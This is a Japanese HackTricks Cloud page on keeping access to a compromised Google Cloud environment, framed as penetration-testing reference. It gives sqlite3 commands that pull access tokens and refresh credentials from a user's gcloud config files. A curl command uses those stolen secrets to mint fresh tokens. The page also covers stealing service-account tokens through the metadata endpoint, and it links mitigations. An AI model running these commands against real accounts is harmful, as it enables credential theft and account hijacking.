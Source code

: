 # GCP - 非サービス永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**する
- **ハッキングトリックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

これらは、何らかの方法でGCPの資格情報またはGCP環境で実行されているマシンを侵害した場合に便利なテクニックです。

## トークンハイジャッキング

### 認証済みユーザートークン

ユーザーの**現在のトークン**を取得するには、次のコマンドを実行できます：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

このページで、**gcloudを使用してこのトークンを直接使用する方法**を確認してください：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセストークンを生成する**詳細を取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**リフレッシュトークン**、クライアントID、およびクライアントシークレットを使用して、新しいリフレッシュされたアクセストークンを取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**管理者** > **セキュリティ** > **Google Cloud セッション制御** で管理でき、デフォルトでは16時間に設定されていますが、期限を切れないように設定することもできます：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### サービスアカウント

認証されたユーザーと同様に、サービスアカウントの**秘密鍵ファイルを侵害**すると、**通常は必要なだけアクセス**できます。\
ただし、サービスアカウントの**OAuth トークン**を盗むとさらに興味深いです。デフォルトではこれらのトークンは通常1時間だけ有効ですが、**被害者が秘密の API キーを削除しても、OAuth トークンは有効期限が切れるまで有効**です。

### メタデータ

明らかに、GCP 環境で実行されているマシン内にいる限り、メタデータエンドポイントに連絡してそのマシンにアタッチされたサービスアカウントに**アクセスできます**（このエンドポイントでアクセスできる OAuth トークンは通常、スコープによって制限されています）。

### 対処方法

これらのテクニックのいくつかの対処方法については、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> で **ゼロからヒーローまでの AWS ハッキングを学ぶ**!</summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**、または **HackTricks を PDF でダウンロード** したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式 PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discord グループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegram グループ](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする
* **ハッキングトリックを共有する**ために、[HackTricks](https://github.com/carlospolop/hacktricks) と [HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出する

</details>

